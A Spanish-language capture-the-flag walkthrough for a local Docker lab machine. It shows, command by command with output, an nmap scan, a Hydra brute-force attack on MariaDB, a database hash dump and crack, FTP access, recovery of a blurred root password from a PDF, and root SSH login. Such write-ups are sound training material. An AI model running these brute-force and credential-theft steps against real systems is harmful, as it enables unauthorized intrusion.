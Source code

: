 ## DESPLIEGUE DEL DOCKER

Después de desplegar el docker la IP de la máquina es --->172.17.0.2

## FASE DE ENUMERACIÓN

Lo primero vamos a ver que puertos tiene abiertos y que servicios conrren por ellos, así como sus versiones para ver si hay alguna vulnerabilidad.
```bash
nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open -oN PuertosYservicios 172.17.0.2
```
Descripción del comando: 

nmap ejecuta la herramienta de escaneo de red
-sS realiza un escaneo SYN rápido y sigiloso
-sCV detecta servicios y versiones ejecutando scripts predeterminados
-Pn omite el ping y asume que el host está activo
--min-rate 5000 establece una tasa mínima de 5000 paquetes por segundo
-p- escanea todos los puertos del 1 al 65535
-vvv modo muy detallado del escaneo
--open muestra solo los puertos abiertos
-oN PuertosYservicios guarda el resultado en un archivo de texto
172.17.0.2 es la IP del host objetivo

```
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 3.0.3
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 04:81:76:01:7f:ac:bd:15:ea:2b:24:10:c2:7c:56:5f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBO6CZDpuoCIZDYiR9SUlcbeEdpvEjB6MHLMkjm6lH1/jJ5gq+CjwCLdoierDtDiJL66j8Jegm97vxLEL/Pty2cI=
|   256 73:c2:da:cb:47:d7:a9:40:1e:c6:11:bf:09:9c:b2:a3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINSaD5RDDNiU4Y284/RlAmpctEMA37q5icAC1fJH5uBU
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Zoo de Capybaras
|_http-server-header: Apache/2.4.62 (Debian)
3306/tcp open  mysql   syn-ack ttl 64 MariaDB 5.5.5-10.11.6
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.6-MariaDB-0+deb12u1
|   Thread ID: 48
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, ODBCClient, LongColumnFlag, Support41Auth, Speaks41ProtocolOld, SupportsCompression, ConnectWithDatabase, SupportsTransactions, IgnoreSigpipes, InteractiveClient, DontAllowDatabaseTableColumn, FoundRows, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: '1_l![)X`Y|(L(!m$gZp
|_  Auth Plugin Name: mysql_native_password
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
vemos unos cuantos puertos abiertos, el 21 ftp, intento conectarme como anonymous y no me deja, de momento lo descartamos
el 3306 mysql, que sin credenciales no nos deja conectarnos a la base de datos y 22 ssh sin credenciales que tampoco podemos hacer nada.
Vamos al puerto 80 protocolo http, lanzamos un whatweb por si nos reporta alguna información interesante:
```bash
whatweb http://172.17.0.2
```
```
http://172.17.0.2 [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[172.17.0.2], Title[Zoo de Capybaras]
```
nada interesante salvo saber que corre un apache, miramos el código fuente de la página con ctrl+u y no vemos nada interesante, lo único interesante es:

```
Hola Usuario capybara
```
un usuario. Así pùes vamos a ver dónde podemos atacar con un usuario y un diccionario.

## FASE INTRUSIÓN

tenemos un servicio en el puerto 3306 de mysql, lanzamos un ataque de fuerza bruta usando hydra:

```bash
hydra -l capybara -P /usr/share/wordlists/rockyou.txt -t 64 mysql://172.17.0.2 -F -I -V 
```
```
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "000000" - 23 of 14344399 [child 3] (0/0)
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "michelle" - 24 of 14344399 [child 1] (0/0)
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "tigger" - 25 of 14344399 [child 0] (0/0)
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "sunshine" - 26 of 14344399 [child 2] (0/0)
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "chocolate" - 27 of 14344399 [child 3] (0/0)
[ATTEMPT] target 172.17.0.2 - login "capybara" - pass "password1" - 28 of 14344399 [child 1] (0/0)
[3306][mysql] host: 172.17.0.2   login: capybara   password: password1
```
pues tenemos un user y un pass para mysql capybara:password1, vamos a conectarnos a la base de datos:

```bash
mysql -h 172.17.0.2 -u capybara -p --skip-ssl
```
es importante poner la flag --skip-ssl para omitirse el uso de SSL, sino no nos conectará

introducimos el pass cuando lo pida: password1

```
 mysql -h 172.17.0.2 -u capybara -p --skip-ssl                                                                                                                                         

Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 117
Server version: 10.11.6-MariaDB-0+deb12u1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

ahora vamos a movernos por la base de datos:
usamos el comando " show databases; " para que nos muestre las bases de datos disponibles:

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| beta               |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0,001 sec)
```
vemos una interesante llamada beta, ahora con el comando " use + nombre de la base de datos;" usamos esa base de datos (beta en este caso):
```bash
use beta;
```
```
Database changed
MariaDB [beta]> 
```
una vez dentro de la base de datos hay que ver las tablas de las que disponemos con el comando " show tables; "

```bash
MariaDB [beta]> show tables;
+----------------+
| Tables_in_beta |
+----------------+
| registraton    |
+----------------+
1 row in set (0,000 sec)
```
ahora queremos ver toda la información de la tabla registraton "select * from registraton;"
```
MariaDB [beta]> select * from registraton;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | balulero | 520d3142a140addb8be7d858a7e29e15 |
+----+----------+----------------------------------+
1 row in set (0,000 sec)
```

tenemos un user y un hash, voy a probar una pagina de rainbow tables por si existe en sus bases la contraseña,
me voy a :
```bash
https://crackstation.net/
```
```
Hash	Type	Result
520d3142a140addb8be7d858a7e29e15	md2	password1
```
pues ya tenemos un user nuevo y un pass balulero:password1

Probamos por ssh y no nos deja conectarnos así pues probamos ftp:
```bash
 ftp 172.17.0.2
```
```
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:kali): balulero
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
listamos el contenido (ls) y vemos un archivo backup.pdf que nos traemos a nuestra máquina (con get + nombre del archivo):

```
ftp> ls
229 Entering Extended Passive Mode (|||53681|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0           31654 Feb 02 11:21 backup.pdf
226 Directory send OK.
ftp> get backup.pdf
local: backup.pdf remote: backup.pdf
229 Entering Extended Passive Mode (|||11668|)
150 Opening BINARY mode data connection for backup.pdf (31654 bytes).
100% |************************************************************************************************************************************************************************************************| 31654      206.76 MiB/s    00:00 ETA
226 Transfer complete.
31654 bytes received in 00:00 (44.58 MiB/s)
```

es un pdf en el cual leemos: 
```
BACKUP PASSWORD
La contraseña del usuario root es
```
y algo ilegible, hacemos un tratamiento rápido convirtiendo el pdf a imagen (con cualquier pagina online que querais)
y usando este comando:
```bash
convert imagen.jpg -brightness-contrast 10x15 imagen_mejorada.jpg
```

se puede medio leer : 
```
passwordpepinaca
```

pues nos conectamos por ssh como root y el password.
```
 ssh root@172.17.0.2                                                                                                                                                                   
root@172.17.0.2's password: 
```
```
root@29316be1337f:~# id
uid=0(root) gid=0(root) groups=0(root)
```

y hasta aquí esta máquina interesante que después de la intrusión ya somos root ;)
